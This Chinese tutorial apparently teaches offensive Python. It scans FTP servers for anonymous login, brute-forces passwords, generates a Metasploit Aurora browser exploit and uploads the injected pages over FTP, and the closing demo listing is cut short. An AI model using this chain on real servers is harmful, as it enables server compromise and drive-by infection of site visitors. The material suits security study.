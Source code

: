 ### 用 Python 构建匿名 FTP 扫描器

可以利用 Python 中的 ftplib 库编写一个小脚本，确定一个服务器是否允许匿名登录

```python
import ftplib
def anon_login(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login("anonymous", "me@your.com")
        print("[*] {} FTP Anonymous Logon Succeeded.".format(host))
        ftp.quit()
        return True
    except Exception as e:
        print("[-] {} FTP Anonymous Logon Failed.".format(host))
        return False


if __name__ == "__main__":
    host = "192.168.158.161"
    anon_login(host)
```

### 使用 Ftplib 暴力破解 FTP 用户口令

`FileZilla` 之类的 FTP 客户端程序往往将密码以明文形式存储在配置文件中

只要将上面的 `ftp.login()` 替换上对应的用户名和密码就可以验证了

### 在 FTP 服务器上搜索网页

使用 `nlst` 函数，这会列出目录中所有文件的命令

```python
dir_list = ftp.nlst()
```

### 在网页中加入恶意注入代码

直接使用 `metasploit` 框架生成：

```shell
msfcli exploit/windows/browser/ms10_002_aurora
```

上传的命令：

```python
ftp.storlines("STOR {}".format(page), open("{}.tmp".format(page)))
```

### 完整的代码 DEMO

虽然很多余，但还是把整个流程打一遍吧

```python
import ftplib
import optparse
import time

def anon_login(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login("anonymous", "me@your.com")
        print("[*] {} FTP Anonymous Logon Succeeded.".format(hostname))
        ftp.quit()
        return True
    except Exception as e:
        print("[-] {} FTP Anonymous Logon Failed.".format(hostname))
```